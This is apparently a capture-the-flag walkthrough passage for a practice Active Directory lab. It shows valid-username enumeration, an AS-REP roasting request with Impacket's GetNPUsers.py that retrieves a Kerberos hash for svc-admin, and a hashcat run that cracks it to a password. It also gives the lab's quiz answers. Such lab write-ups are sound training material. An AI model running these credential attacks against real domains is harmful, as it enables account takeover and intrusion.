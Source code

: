 ```
2020/08/23 00:50:37 >  [+] VALID USERNAME:       backup@spookysec.local
2020/08/23 00:50:55 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/08/23 00:52:48 >  [+] VALID USERNAME:       JAMES@spookysec.local
```

```
svc-admin@spookysec.local
administrator@spookysec.local
backup@spookysec.local
```

[Task 5] Exploiting Kerberos 

#1 We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

```
kali@kali:~/Documents$ GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.4.164
Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:21f4acdd58dcc1a89c920fe69da8041f$8d3e1002693de8e078aad7e9323c86cee7ed555b25162ffc1ff5914d4cd7a31de9a06dc993fc7bffe216e91cf544dbb011b4113614136963a24ac97a5210253db71d324b0bf12f93e3b06e6fe9622b99e4ee4f06a223071f2c82719e4e814b5b4247874720e4839214e62b9d0b6e3707aba7ddde3ca7907c381644313b789b27371108df7bcb4b255e640b50fd6607fd706157f193c630f8f96a5c0677476520457f185cce7b5f67503b5593419cb6d862dc03a34159f3016e8adab95aba5526f9b098193f0502bd894a6bc6cf3c857e92ba4f4fdf0c5a6ed3fbd804fd222a93c333fc534742877fc45dadbf5d2a74853521

```

answer svc-admin

#2 Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

go to https://hashcat.net/wiki/doku.php?id=example_hashes

search for the beginning of the hash on page "$krb5asrep$23$"

```
18200 	Kerberos 5 AS-REP etype 23 
```

#3 What mode is the hash?

```
18200
```

#4 Now crack the hash with the modified password list provided, what is the user accounts password?

```
hashcat -m 18200 hash passwordlist.txt --force

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:21f4acdd58dcc1a89c920fe69da8041f$8d3e1002693de8e078aad7e9323c86cee7ed555b25162ffc1ff5914d4cd7a31de9a06dc993fc7bffe216e91cf544dbb011b4113614136963a24ac97a5210253db71d324b0bf12f93e3b06e6fe9622b99e4ee4f06a223071f2c82719e4e814b5b4247874720e4839214e62b9d0b6e3707aba7ddde3ca7907c381644313b789b27371108df7bcb4b255e640b50fd6607fd706157f193c630f8f96a5c0677476520457f185cce7b5f67503b5593419cb6d862dc03a34159f3016e8adab95aba5526f9b098193f0502bd894a6bc6cf3c857e92ba4f4fdf0c5a6ed3fbd804fd222a93c333fc534742877fc45dadbf5d2a74853521:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:21f4acdd58d...853521
Time.Started.....: Sun Aug 23 01:25:40 2020 (1 sec)
Time.Estimated...: Sun Aug 23 01:25:41 2020 (0 secs)
Guess.Base.......: File (passwordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    52810 H/s (10.74ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
```